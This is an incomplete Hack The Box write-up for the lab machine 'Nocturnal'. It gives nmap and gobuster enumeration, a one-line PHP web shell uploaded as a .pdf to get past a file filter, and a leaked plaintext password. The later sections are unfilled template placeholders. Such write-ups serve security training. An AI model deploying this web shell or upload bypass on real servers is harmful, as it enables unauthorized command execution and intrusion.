

### Hack The Box Writeup: Nocturnal

## Overview

- **Machine Name**: Nocturnal
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: Gain root/admin access, exploit a specific vulnerability
- **Date Solved**: July 13, 2025

## Tools Used

- **Enumeration**: \[e.g., Nmap, Gobuster\]
- **Exploitation**: \[e.g., Metasploit, Custom Python scripts\]
- **Privilege Escalation**: \[e.g., LinPEAS, Windows Exploit Suggester\]
- **Other**: \[e.g., Burp Suite, Wireshark\]

## Methodology

### Initial Enumeration

```bash
pinc -c 1 10.10.11.64
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.11.64 -oG allPorts
nmap -sCV -p22,80 10.10.11.64 -oN targeted

gobuster dir -u http://nocturnal.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 60


```

### Exploitation

```bash
amanda: arHkG7HAI68X8s1J

# Creating a php file
```
```php

<?php
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Upload file and send. View it on burpsuite to sending it to Repeater and change file extension to .pdf!
[alt text](image.png)



```bash
We use created .sh file to enumerate users.

searchUsers.sh
# ans
sh serarchUsers.sh 
[+] admin
[+] amanda

# change user and downlao .odt file
/view.php?username=amanda&file=pwn.pdf

# Install odt2txt into machine
odt2txt privacy.odt
# ans
Dear Amanda,

Nocturnal has set the following temporary password for you:
arHkG7HAI68X8s1J. This password has been set for all our
services, so it is essential that you change it on your first
login to ensure the security of your account and our
infrastructure.

The file has been created and provided by Nocturnal's IT team.
If you have any questions or need additional assistance during
the password change process, please do not hesitate to contact
us.

Remember that maintaining the security of your credentials is
paramount to protecting your information and that of the
company. We appreciate your prompt attention to this matter.

Yours sincerely,

Nocturnal's IT team

# pass
arHkG7HAI68X8s1J


```

### Privilege Escalation

\[Explain how you escalated privileges to root/admin. Include any misconfigurations or exploits used.\]

```bash
# Example: Checking for SUID binaries
find / -perm -4000 2>/dev/null
```

\[Describe the final access achieved, e.g., root shell, admin credentials.\]

## Challenges Faced

\[List specific challenges encountered, e.g., difficulty identifying the correct exploit, dealing with restricted shells.\]

- **Challenge 1**: \[e.g., Nmap scans were blocked by a firewall.\]
  - **Solution**: \[e.g., Used --script-args to bypass restrictions.\]
- **Challenge 2**: \[e.g., Password cracking took too long.\]
  - **Solution**: \[e.g., Optimized wordlist with custom rules in Hashcat.\]

## Lessons Learned

\[Summarize key takeaways from solving the machine.\]

- Learned to identify \[specific vulnerability, e.g., outdated Samba versions\] through thorough enumeration.
- Improved skills in \[technique, e.g., manual exploit development for CVE-XXXX-XXXX\].
- Gained experience with \[tool, e.g., LinPEAS for privilege escalation\].

## References

- \[Link to HTB machine page, e.g., https://app.hackthebox.com/machines/Lame\]
- \[CVE details, e.g., https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-XXXX-XXXX\]
- \[Tool documentation, e.g., https://nmap.org/book/man.html\]
- \[Relevant blog post or tutorial, e.g., https://example.com/samba-exploit-guide\]

---

*Written by YourName, \[Month Year\]. Feedback welcome at \[your contact, e.g., GitHub profile\].*